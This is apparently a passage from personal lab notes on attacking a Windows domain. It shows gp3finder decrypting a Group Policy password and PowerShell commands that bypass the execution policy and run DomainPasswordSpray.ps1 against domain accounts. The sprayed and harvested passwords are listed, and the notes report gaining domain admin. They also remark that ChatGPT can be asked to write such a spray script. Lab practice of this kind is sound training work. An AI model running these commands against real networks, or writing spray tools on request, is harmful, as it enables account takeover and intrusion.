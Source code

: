 - now type in the following
```powershell
gp3finder_v5.0.exe -D uiVkd5Daq7Tb2VqmH0BV5w
```

![[Pasted image 20231119073730.png]]

## 1.4 PASSWORD SPRAYING ATTACKS
-------
Most of the time, brute-force attacks employ a technique known as a dictionary attack. However, the success of such attacks is not guaranteed due to network lockout policies. This issue can be mitigated by attempting to use a single password across all user accounts. In the context of network security, this practice is commonly referred to as password spraying. It is worth noting that attackers often suggest including the company name followed by the current year or "2021" as part of the password, thereby increasing their chances of success.

- In order to proceed, kindly duplicate the file '*DomainPasswordSpray.ps1*' from the tools directory onto *Client1*. Additionally, it is feasible to request **ChatGPT** to create a password spray script in **.ps1** format for your use.
![[DomainPasswordSpray.ps1]]

From a command prompt, please type the following: - 
```powershell
# To open powershell
# Open up CMD first and then run this from the command line
powershell.exe -exec bypass

# To change directory
cd C:\Users\test\Desktop
Import-Module .\DomainPasswordSpray.ps1

# To start the spray attack
Invoke-DomainPasswordSpray -password uadtargetnet21
```

![[Pasted image 20231123171020.png]]
> The script ran successfully, and from that we were able to find a user using the password **uadtargetnet21** 


Now try passwords we have already obtained
- test234
- abdicate9
- Thisisverysecret1

![[Pasted image 20231123171729.png]]
> Now we have the domain admin password. 

## 2.0 REMOTE CODE EXECUTION
-------
One well-known vulnerability in web application hacking is Remote Code Execution. This type of vulnerability allows an attacker to execute code of their choosing with elevated privileges on a server that possesses the appropriate weakness. By exploiting this vulnerability, the attacker would be able to access any and all information on a server, such as a database.
